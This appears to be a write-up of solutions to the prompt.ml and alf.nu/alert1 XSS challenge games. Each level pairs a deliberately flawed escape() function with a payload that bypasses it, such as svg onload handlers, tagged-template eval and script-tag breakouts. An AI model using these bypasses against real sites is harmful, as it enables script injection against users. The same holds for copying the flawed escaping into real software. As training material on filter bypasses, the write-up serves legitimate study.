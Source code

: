 # prompt.ml

### 0. Warmup

- Task
 
```js
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
} 
```

- Solution

```js
"><svg onload=prompt(1)//
```

- HTML source

```html
<input type="text" value=""><svg onload=prompt(1)//">
```

### 1. Tag stripping

- Task

```js
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}
```

- Solution

```html
<svg onload=prompt(1) // 
```

- HTML source

```html
<article><svg onload=prompt(1) // </article>
```

### 2. Parenthesis-less

- Task

```js
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}     
```

- Solution

```html
<script>eval.call`${'prompt\x281\x29'}`</script>
```

HTML source

```html
<script>eval.call`${'prompt\x281\x29'}`</script>
```

### 7. Splits

Task

```js
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}
```

Solution

```html
"><script>/*#*/prompt/*#*/(1)/*#*/</script>
```

- HTML source

```html
<p class="comment" title=""><script>/*"></p>
<p class="comment" title="*/prompt/*"></p>
<p class="comment" title="*/(1)/*"></p>
<p class="comment" title="*/</script>"></p>
```

# alf.nu/alert1

### 1. Warmup

- Task

```js
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

-Solution

```js
",alert(1),"
```

### 2. Adobe

- Task

```js
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```js
\");alert(1)//
```

### JSON

- Task

```js
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```js
</script><script>alert(1)//
```

### Markdown

- Task

```js
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

- Solution

```js
[[x|http://onerror=javascript:alert(1)//]]
```

### Skandia

- Task

```js
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

- Solution

```js
</script><img src onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>
```

### JSON2

- Task

```js
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```js
</scrip</scriptt><script>alert(1)//
```
